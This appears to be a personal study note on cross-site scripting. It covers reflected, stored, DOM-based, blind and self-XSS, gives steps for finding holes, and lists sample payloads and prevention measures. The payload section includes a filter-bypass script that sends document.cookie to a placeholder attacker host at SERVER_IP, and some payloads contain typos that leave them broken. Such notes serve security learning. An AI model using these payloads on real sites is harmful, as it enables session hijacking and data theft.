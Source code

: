 # XSS Overview

Cross-Site Scripting is an injection attack where malicious code (*JavaScript*, *HTML*, *etc.*) gets injected into a web application with the intention of being executed by other users

* If an application fails to distinguish between user input and the legitimate code that makes up a web page, attackers can inject their own code into pages viewed by others (*Comment sections*, *etc.*)
* Attackers can have the victim's browser execute malicious script or code to do certain actions (*Steal cookies*, *Leak personal information*, *etc.*)

![](https://github.com/JonmarCorpuz/SecondBrain/blob/main/Assets/Whitespace.png)

# Types of XSS

| XSS Type | Description |
| --- | --- |
| Reflected XSS | |
| Stored XSS | |
| DOM-Based XSS | |
| Blind XSS | |

## Reflected XSS

Reflected XSS occurs when an attacker injects malicious scripts into a web application that are immediately reflected back to a user without proper validation or sanitization

![](https://github.com/JonmarCorpuz/SecondBrain/blob/main/Assets/8e3bffe500771c03366de569c3565058.png)

* Relies on tricking a user into clicking a specially crafted link or submitting a malicious form, which then executes the malicious script in their browser
* In this case, the application takes in user input, processes it server-side, and immediately returns it to the user
* Often happens when the server relies on user input to construct pages that display search results or error messages (*Search bars*, *etc.*)
* Enables attackers to execute code on the browsers of victims who click their malicious links
* Reflected XSS payloads get sent to the server and returned to the user's browser within an HTTP response

| Reflected XSS Method | Description |
| --- | --- |
| Parameters in the URL Query String | |
| URL File Path | |
| HTTP Headers | |

## Stored XSS

Stored XSS is when a malicious script that was injected by an attacker is permanently stored on the target web server (Ex: *Database*, *Message forum*, *Comment section*, *etc.*)

![](https://github.com/JonmarCorpuz/SecondBrain/blob/main/Assets/cc2566d297f7328d91bc8552f902210e.png)

* When other users view the affected content, the malicious script is served and executed in their browser
* All the user has to do to become a victim is to view a page with the payload embedded (Whereas reflected and DOM XSS usually require the user to click a malicious link)
* Everytime users access the stored information, the XSS executes in their browser

## DOM-Based XSS

DOM-Based XSS occurs when the client-side script of a web application manipulates the Document Object Model in an unsafe way based on user input (The DOM is a model that represents a web page's structure and used to render a web page by defining the basic properties and behavior of each HTML element)

* Targets the DOM directly by attacking the client's local copy of the web page instead of going through the server (Attackers can attack the DOM when a page takes user-supplied data and dynamically alters the DOM based on that input)
* Doesn't require server involvement because it executes when user input modifies the source code of the page in the browser directly (The XSS script is never sent to the server, so the HTTP response from the server won't change)
* User input never leaves the user's browser
* The application takes in user input, processes it on the victim's browser, and then returns it to the user (The XSS payload is injected onto a page because of client-side code rendering user input in an insecure manner)

## Blind XSS

Blind XSS is when a threat actor injects malicious scripts into a web application without immediately seeing the results

* Useful when the injected script is stored and later executed in a different context or viewed by a subject that has access to a part of the application that the attacker can't directly see  (Ex: *An attacker can submit a message with JavaScript code and have that code executed by any admin who views that message*)

## Self-XSS

Self-XSS is where an attack tricks vicitms to input a malicious payload themselves 

![](https://github.com/JonmarCorpuz/SecondBrain/blob/main/Assets/Whitespace.png)

# Finding a XSS Vulnerability

1. Look for user input opportunities on the target application
    * If user input is stored and used to construct a web page later, test the input field for stored XSS
    * If user input in a URL gets reflected back on the resulting web page, test for reflected and DOM XSS
2. Insert XSS payloads into the user input fields you've found
3. Confirm the impact of the payload by checking if your browser runs your JavaScript code or generates a request to your server
4. Consider it's impact
5. Report it

![](https://github.com/JonmarCorpuz/SecondBrain/blob/main/Assets/Whitespace.png)

# XSS Payloads

```HTML
<img onload=alert('XSS') scr="example.png">
```

URL
```Text
javascript:alert('XSS')
```

Data URL
```Text
data:text/html;base64,<ENCODED_STRING>
```

iFrame (Useful when <script> tags are banned by the XSS filter)
```HTML
<iframe src=javascript:alert('XSS')>
```

Make the victim's browser request a page on your server
```JavaScript
<script src='http://SERVER_IP/test'></script>
```

Insert JavaScript code into HTML code as an attribute to the current tag
```HTML
<img src="example.com" onerror="alert('XSS');">
```
```HTML
<a href="javascript:alert('XSS')>Click me</a>"
```

Use the JavaScript `fromCharCode()` function to construct an XSS payload without quotes
```JavaScript
String,fromCharCode()
```

tmp
```JavaScript
<script<script>t>location='http://SERVER_IP/c='document.cookie;</scrip</script>t>
```

![](https://github.com/JonmarCorpuz/SecondBrain/blob/main/Assets/Whitespace.png)

# XSS Polygot

An XSS polygot is a type of XSS payload that executes in multiple contextx (Ex: *It'll execute regardless of whether it is inserted into an <img> tag, <script> tag, or a <p> tag*)

![](https://github.com/JonmarCorpuz/SecondBrain/blob/main/Assets/Whitespace.png)

# Preventing XSS

* Robust input validation
* Contextual output escaping (Escaping ensures that browsers don't misinterpret characters as code to execute)
* Contextual output encoding
* Applications should never insert user-submitted data directly into an HTML document
* Applications should avoid code that rewrites the HTML document based on user input
* Applications should implement client-side input validation before it's inserted into the DOM
* You can instruct the browser to execute only scripts from a list of source
